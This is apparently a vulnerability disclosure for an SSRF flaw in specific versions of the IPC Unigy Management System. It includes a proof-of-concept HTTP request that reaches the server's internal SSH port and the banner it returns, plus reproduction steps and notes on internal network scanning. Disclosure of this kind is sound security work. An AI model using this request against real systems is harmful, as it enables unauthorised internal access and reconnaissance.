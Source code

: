 ```yaml
---
title: CVE - IPC Unigy - ingles
---
```


### Vulnerability Report: SSRF in IPC Unigy™ Management System

![0f96424841c20e47f13741642b1b87ff.png](../_resources/0f96424841c20e47f13741642b1b87ff.png)

#### Vulnerability Description

A Server-Side Request Forgery (SSRF) vulnerability has been identified in the IPC Unigy™ Management System, affecting the following versions:

- **Unigy™ Version 04.03.00.08.0027**
- **COP Version 03.00.01.00.0018**
- **OS Patch Version 06.00.00.34.0008**

This vulnerability allows a remote attacker to make arbitrary HTTP requests to internal and external resources, using the affected system as a proxy. This can be exploited to access internal data, scan the internal network, and potentially exploit other vulnerabilities that would otherwise be inaccessible externally.


#### Technical Details

##### Exploitation Request

An example HTTP request that exploits this SSRF vulnerability:


```
GET http://127.0.0.1:22 HTTP/1.1
Host: 127.0.0.1
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="90"
Sec-Ch-Ua-Mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: pt-BR,pt;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
```

##### Obtained Response

```
HTTP/1.1 200 OK
Date: Fri, 31 May 2024 15:01:18 GMT
Server: Apache
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 19

SSH-2.0-OpenSSH_8.1
```

### Detailed Exploitation

#### Requests to Internal Ports

Exploitation can be conducted by sending requests to internal ports of the server itself:

![Internal Port Exploitation](../_resources/b00ae0d460cdfbb22e7939cccaccde5c.png)

#### Requests to External Sites

Additionally, requests can be sent to external websites, allowing the exploitation of external services using the vulnerable server as a proxy:

![External Site Exploitation 1](../_resources/c1bd2a03acb340294e611226276199c8.png)
![External Site Exploitation 2](../_resources/6cc4ed91d7393306af8b80200a2c034e.png)

### Impact

Successful exploitation of this vulnerability could allow an attacker to:

- Access protected internal resources.
- Scan the internal network and discover other vulnerable systems.
- Conduct further attacks based on the information obtained.

### Reproducing the Vulnerability

1. Send the HTTP request above using a tool such as Burp Suite or Postman.
2. Observe the response that returns information about the internal service.

### Additional References

Exploiting misconfigured reverse proxies can allow attackers to access internal services through the proxy's "localhost" interface and other internal hosts. This can be done if the proxy allows connections to the "localhost" interface or internal hosts, which can be used as a rudimentary private network scanner.

#### Exploitation Examples

- **Connecting to SSH/SMTP**: A misconfigured HTTP proxy can be exploited to connect to non-HTTP ports, revealing sensitive information about target services.
- **Finding Hosts**: With the ability to connect to the private network through a proxy, host and port discovery can be conducted using tools like Burp Intruder to test various hostnames and ports.

For more information on exploiting open and misconfigured proxies, see the full article [Abusing Reverse Proxies, Part 2: Internal Access](https://blog.projectdiscovery.io/abusing-reverse-proxies-internal-access/).
